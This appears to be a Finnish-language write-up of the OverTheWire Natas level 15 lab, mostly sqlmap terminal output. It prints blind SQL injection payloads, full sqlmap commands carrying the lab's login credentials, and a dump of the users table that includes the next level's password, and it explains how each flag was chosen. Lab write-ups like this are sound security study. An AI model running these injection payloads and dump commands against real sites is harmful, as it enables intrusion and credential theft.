|_ -| . [(]     | .'| . |                                                                                                      
|___|_  ["]_|_|_|__,|  _|                                                                                                      
      |_|V...       |_|   https://sqlmap.org                                                                                   

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:30:26 /2025-05-18/

[11:30:27] [INFO] testing connection to the target URL
[11:30:27] [INFO] testing if the provided string is within the target URL page content
[11:30:27] [INFO] testing if POST parameter 'username' is dynamic
[11:30:27] [INFO] POST parameter 'username' appears to be dynamic
[11:30:27] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[11:30:27] [INFO] heuristic (XSS) test shows that POST parameter 'username' might be vulnerable to cross-site scripting (XSS) attacks


[11:30:40] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[11:30:51] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[11:30:51] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[11:30:51] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[11:30:51] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[11:30:51] [INFO] target URL appears to have 2 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] y
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] y
[11:30:58] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')                                                                                                                            
[11:30:59] [INFO] target URL appears to be UNION injectable with 2 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] y
[11:31:05] [INFO] testing 'Generic UNION query (80) - 21 to 40 columns'
[11:31:07] [INFO] testing 'Generic UNION query (80) - 41 to 60 columns'
[11:31:08] [INFO] testing 'Generic UNION query (80) - 61 to 80 columns'
[11:31:09] [INFO] testing 'Generic UNION query (80) - 81 to 100 columns'
[11:31:11] [INFO] testing 'MySQL UNION query (80) - 1 to 20 columns'
[11:31:13] [INFO] testing 'MySQL UNION query (80) - 21 to 40 columns'
[11:31:14] [INFO] testing 'MySQL UNION query (80) - 41 to 60 columns'
[11:31:16] [INFO] testing 'MySQL UNION query (80) - 61 to 80 columns'
[11:31:17] [INFO] testing 'MySQL UNION query (80) - 81 to 100 columns'
[11:31:18] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
[11:31:27] [INFO] testing if parameter 'User-Agent' is dynamic
[11:31:28] [WARNING] parameter 'User-Agent' does not appear to be dynamic
[11:31:28] [WARNING] heuristic (basic) test shows that parameter 'User-Agent' might not be injectable
[11:31:28] [INFO] testing for SQL injection on parameter 'User-Agent'
[11:31:28] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:31:34] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[11:31:39] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[11:31:45] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'


.....

[11:36:40] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[11:36:42] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP)'
[11:36:44] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SLEEP)'
[11:36:47] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (SLEEP)'
[11:36:50] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SLEEP - comment)'
[11:36:52] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (SLEEP - comment)'
[11:36:53] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP - comment)'
[11:36:55] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP - comment)'
[11:36:57] [INFO] testing 'MySQL < 5.0.12 AND time-based blind (BENCHMARK)'
[11:37:00] [INFO] testing 'MySQL > 5.0.12 AND time-based blind (heavy query)'
[11:37:03] [INFO] testing 'MySQL < 5.0.12 OR time-based blind (BENCHMARK)'
[11:37:06] [INFO] testing 'MySQL > 5.0.12 OR time-based blind (heavy query)'
[11:37:07] [WARNING] user aborted during detection phase
how do you want to proceed? [(S)kip current test/(e)nd detection phase/(n)ext parameter/(c)hange verbosity/(q)uit] e
[11:37:12] [WARNING] parameter 'Referer' does not seem to be injectable
sqlmap identified the following injection point(s) with a total of 6419 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=natas16" AND 1660=1660-- PPEC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=natas16" AND (SELECT 2128 FROM (SELECT(SLEEP(5)))AGpI)-- cjDo
---
[11:37:12] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL < 5.0.12
[11:37:13] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/natas15.natas.labs.overthewire.org'                                                                                                                          
[11:37:13] [WARNING] your sqlmap version is outdated

[*] ending @ 11:37:13 /2025-05-18/
```

---

## Natas 15 - 3 Kali linux nyt löytyi vastaus 

Nyt tämä alkoi pelittää ja se rakensi sen vastauksena et kävi jotenkin lävitse , mutta kuitenkin kävi lävitse tausta järjestelmänsä:
- tietokanta versio (MysQL < 5.0.12)
- käyttöjärjestelmä: Ubuntu Linux
- palvelin: Apache 2.4.58

Sekä kävi hakee tiedot, josta haettiin tietokannasta, koskevaa taulukkoa `users`, sarakkeen `username` ja `password`.

Eli alemmassa komennossa tapahtuu niin:
| **Osa**                         | **Kuvaus**                  | **Tarkennus / Käyttötarkoitus**                                                                     |
| ------------------------------- | --------------------------- | --------------------------------------------------------------------------------------------------- |
| `-u "URL"`                      | Kohdeosoite (URL)           | Sivun osoite, johon SQLMap tekee pyynnöt                                                            |
| `--auth-type Basic`             | Autentikointityyppi         | Käytetään HTTP Basic -tunnistautumista                                                              |
| `--auth-cred käyttäjä:salasana` | Tunnistautumistiedot        | Kirjaudutaan palveluun annetulla käyttäjätunnuksella ja salasanalla                                 |
| `--data "username=natas16"`     | POST-data                   | Lomakekenttä, jota SQLMap käyttää injektion kohteena                                                |
| `--string "This user exists"`   | Tunnistusteksti             | Blind SQL injection -testissä kertoo SQLMapille, että vastaus oli onnistunut (ehto palautti "true") |
| `--level=5`                     | Testauksen laajuus          | Testataan enemmän parametreja ja syvempää rakennetta                                                |
| `--risk=3`                      | Hyökkäysten aggressiivisuus | Sallitaan tehokkaammat (mutta mahdollisesti haitallisemmat) injektiotekniikat                       |
| `-D natas15`                    | Valittu tietokanta          | Tietokanta, josta tietoja haetaan                                                                   |
| `-T users`                      | Valittu taulu               | Taulu tietokannassa, josta tiedot haetaan                                                           |
| `-C username,password`          | Valitut sarakkeet           | Haettavat kentät `users`-taulusta                                                                   |
| `--dump`                        | Tulosta tiedot              | Tulostaa valitut tiedot komentoriville (tai tallentaa tiedostoon)                                   |

Huomoiona, ja tämä on tyyppillinen **blind SQL injectio** tapaus, jossa ei voi saada virheviestiä tai suoraa dataa takaisin - vain vihje siitä palauttiko ehto true vai false. `--string` on tällöin kriittinen mikä vertaa vastausta siihen.

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php?debug" \
--auth-type Basic \
--string "This user exists" \
--auth-cred natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx \
--data "username=natas16" \
--level=5 --risk=3 \
-D natas15 -T users -C username,password --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.8.5#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:39:29 /2025-05-18/

[11:39:30] [INFO] resuming back-end DBMS 'mysql' 
[11:39:30] [INFO] testing connection to the target URL
[11:39:30] [INFO] testing if the provided string is within the target URL page content
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=natas16" AND 1660=1660-- PPEC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=natas16" AND (SELECT 2128 FROM (SELECT(SLEEP(5)))AGpI)-- cjDo
---
[11:39:30] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL < 5.0.12
[11:39:30] [INFO] fetching entries of column(s) 'password,username' for table 'users' in database 'natas15'
[11:39:30] [INFO] fetching number of column(s) 'password,username' entries for table 'users' in database 'natas15'
[11:39:30] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[11:39:30] [INFO] retrieved: 
[11:39:31] [WARNING] reflective value(s) found and filtering out
4
[11:39:32] [INFO] retrieved: 6P151OntQe
[11:39:37] [INFO] retrieved: bob
[11:39:39] [INFO] retrieved: HLwuGKts2w
[11:39:42] [INFO] retrieved: charlie
[11:39:45] [INFO] retrieved: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
[11:39:59] [INFO] retrieved: natas16
[11:40:02] [INFO] retrieved: hROtsfM734
[11:40:06] [INFO] retrieved: alice
Database: natas15
Table: users
[4 entries]
+----------+----------------------------------+
| username | password                         |
+----------+----------------------------------+
| bob      | 6P151OntQe                       |
| charlie  | HLwuGKts2w                       |
| natas16  | hPkjKYviLQctEW33QmuXL6eDVfMW4sGo |
| alice    | hROtsfM734                       |
+----------+----------------------------------+

[11:40:08] [INFO] table 'natas15.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/natas15.natas.labs.overthewire.org/dump/natas15/users.csv'                                                                                                  
[11:40:08] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/natas15.natas.labs.overthewire.org'                                                                                                                          
[11:40:08] [WARNING] your sqlmap version is outdated

[*] ending @ 11:40:08 /2025-05-18/
```

---

# Natas 15 - miten oltais virallisesti menty?

🔍 Tietokannan taulut
🔍 Sarakkeet halutusta taulusta
📥 Data sarakkeista

## etsitään taulu(t) tietokannasta natas15

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php?debug" \
--auth-type=Basic \
--auth-cred=natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx \
--data="username=natas16" \
--string="This user exists" \
--level=5 --risk=3 \
--tables -D natas15
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.5#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:57:08 /2025-05-18/

[12:57:09] [INFO] resuming back-end DBMS 'mysql' 
[12:57:09] [INFO] testing connection to the target URL
[12:57:10] [INFO] testing if the provided string is within the target URL page content
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=natas16" AND 1660=1660-- PPEC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=natas16" AND (SELECT 2128 FROM (SELECT(SLEEP(5)))AGpI)-- cjDo
---
[12:57:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL < 5.0.12
[12:57:10] [INFO] fetching tables for database: 'natas15'
[12:57:10] [INFO] fetching number of tables for database 'natas15'
[12:57:10] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[12:57:10] [INFO] retrieved: 
[12:57:11] [WARNING] reflective value(s) found and filtering out
1
[12:57:13] [INFO] retrieved: users
Database: natas15
[1 table]
+-------+
| users |
+-------+

[12:57:18] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/natas15.natas.labs.overthewire.org'                                                                                                                          
[12:57:18] [WARNING] your sqlmap version is outdated

[*] ending @ 12:57:18 /2025-05-18/
```

## etsitään sarakkeet/sisältö taulusta esim. (users)

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php?debug" \
--auth-type=Basic \
--auth-cred=natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx \
--data="username=natas16" \
--string="This user exists" \
--level=5 --risk=3 \
--columns -D natas15 -T users
        ___
       __H__                                                                                                                   
 ___ ___[']_____ ___ ___  {1.8.5#stable}                                                                                       
|_ -| . ["]     | .'| . |                                                                                                      
|___|_  ["]_|_|_|__,|  _|                                                                                                      
      |_|V...       |_|   https://sqlmap.org                                                                                   

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:58:37 /2025-05-18/

[12:58:38] [INFO] resuming back-end DBMS 'mysql' 
[12:58:38] [INFO] testing connection to the target URL
[12:58:38] [INFO] testing if the provided string is within the target URL page content
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=natas16" AND 1660=1660-- PPEC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=natas16" AND (SELECT 2128 FROM (SELECT(SLEEP(5)))AGpI)-- cjDo
---
[12:58:38] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL < 5.0.12
[12:58:38] [INFO] fetching columns for table 'users' in database 'natas15'
[12:58:38] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[12:58:38] [INFO] retrieved: 
[12:58:38] [WARNING] reflective value(s) found and filtering out
2
[12:58:43] [INFO] retrieved: username
[12:58:53] [INFO] retrieved: varchar(64)
[12:59:06] [INFO] retrieved: password
[12:59:13] [INFO] retrieved: varchar(64)
Database: natas15
Table: users
[2 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| password | varchar(64) |
| username | varchar(64) |
+----------+-------------+

[12:59:19] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/natas15.natas.labs.overthewire.org'                                                                                                                          
[12:59:19] [WARNING] your sqlmap version is outdated

[*] ending @ 12:59:19 /2025-05-18/
```


## Dump data sarakkeista username,password

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php?debug" \
--auth-type=Basic \
--auth-cred=natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx \
--data="username=natas16" \
--string="This user exists" \
--level=5 --risk=3 \
--dump -D natas15 -T users -C username,password
        ___
       __H__                                                                                                                   
 ___ ___["]_____ ___ ___  {1.8.5#stable}                                                                                       
|_ -| . [.]     | .'| . |                                                                                                      
|___|_  [)]_|_|_|__,|  _|                                                                                                      
      |_|V...       |_|   https://sqlmap.org                                                                                   

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:00:08 /2025-05-18/

[13:00:08] [INFO] resuming back-end DBMS 'mysql' 
[13:00:10] [INFO] testing connection to the target URL
[13:00:10] [INFO] testing if the provided string is within the target URL page content
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=natas16" AND 1660=1660-- PPEC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=natas16" AND (SELECT 2128 FROM (SELECT(SLEEP(5)))AGpI)-- cjDo
---
[13:00:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL < 5.0.12
[13:00:10] [INFO] fetching entries of column(s) 'password,username' for table 'users' in database 'natas15'
[13:00:10] [INFO] fetching number of column(s) 'password,username' entries for table 'users' in database 'natas15'
[13:00:10] [INFO] resumed: 4
[13:00:10] [INFO] resumed: 6P151OntQe
[13:00:10] [INFO] resumed: bob
[13:00:10] [INFO] resumed: HLwuGKts2w
[13:00:10] [INFO] resumed: charlie
[13:00:10] [INFO] resumed: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
[13:00:10] [INFO] resumed: natas16
[13:00:10] [INFO] resumed: hROtsfM734
[13:00:10] [INFO] resumed: alice
Database: natas15
Table: users
[4 entries]
+----------+----------------------------------+
| username | password                         |
+----------+----------------------------------+
| bob      | 6P151OntQe                       |
| charlie  | HLwuGKts2w                       |
| natas16  | hPkjKYviLQctEW33QmuXL6eDVfMW4sGo |
| alice    | hROtsfM734                       |
+----------+----------------------------------+

[13:00:10] [INFO] table 'natas15.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/natas15.natas.labs.overthewire.org/dump/natas15/users.csv'                                                                                                  
[13:00:10] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/natas15.natas.labs.overthewire.org'                                                                                                                          
[13:00:10] [WARNING] your sqlmap version is outdated

[*] ending @ 13:00:10 /2025-05-18/
```

---

# Koskien tätä Level 15 - tietokannan selvitystä

Eli tästä levelistä kuinka oltaisi menty selvittää ja ratkaisee. Perus siinä `index-source.html` välilehdessä kerrottiin pieni vihjeenä että siinä on rakennettu **taulukko** joka on nimetty `users` eli (alempi table luominen), ja tässä antoi vihjeenä että taulun sisällössä on **sarakkeet**: `username` ja `password`.


```
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/
``` 

## Seuraavina, mistä me tiedettään tietokannan nimi?

Tämä PHP-koodipätkässä kuin: `mysqli_select_db($link, 'natas15');` - joka valittiin/valitsee käytettäväksi tietokannaksi eli **natas15**.
Lisäksi tämä on sensuroitu MySQL palvelin siksi lukee `localhost`: --> `$link = mysqli_connect('localhost', 'natas15', '<censored>');`

Näin olleen miniyhteenvetona saattiin näin.
- tietokanta/database: `natas15`
- tietokannan taulukko: `users`
- taulukkon sisältö: `username` ja `password`

Tästä rakentuu se parametri **SQLmap**:

| Asia              | Lähde koodissa                         | SQLMap-parametri              |
| ----------------- | -------------------------------------- | ----------------------------- |
| Tietokanta (`DB`) | `mysqli_select_db(..., 'natas15')`     | `-D natas15`                  |
| Taulu             | `CREATE TABLE users (...)`             | `-T users`                    |
| Sarakkeet         | `username`, `password`                 | `-C username,password`        |
| Injektiokohta     | `$_REQUEST["username"]` → SQL-kysely   | `--data "username=..."`       |
| Paluuviesti       | `"This user exists"` → blind injection | `--string "This user exists"` |

---

# mini yhteenveto 

Perus vähä kuin aikaisempi tasot, että mennään vaikeammaksi ja vaikeammaksi, että selvityksestä joutuu käydä lähes kaikki lävitse mm. curl komento, että pyörittää sqlmap. Ongelmana SQLmap komennon kautta alkaisi mennä vaikeaksi, että mitä me haluataan saada sitä ulos ja rakentaa sitä parametriä asetusta. Ainakin tämä level 14 ja 15 liittyykin toisiinsa jotenkin, mutta vaikeammaksi versus mitä sql injektiota tehdään.


## vinkkejä ja lisää ohjeita:

https://medium.com/hacker-toolbelt/natas-15-sql-injection-with-sqlmap-66cb4f89e3f7

https://owasp.org/www-community/attacks/SQL_Injection

http://github.com/sqlmapproject/sqlmap/blob/master/README.md

https://nils-maeurer.de/post/overthewire-natas14-15/


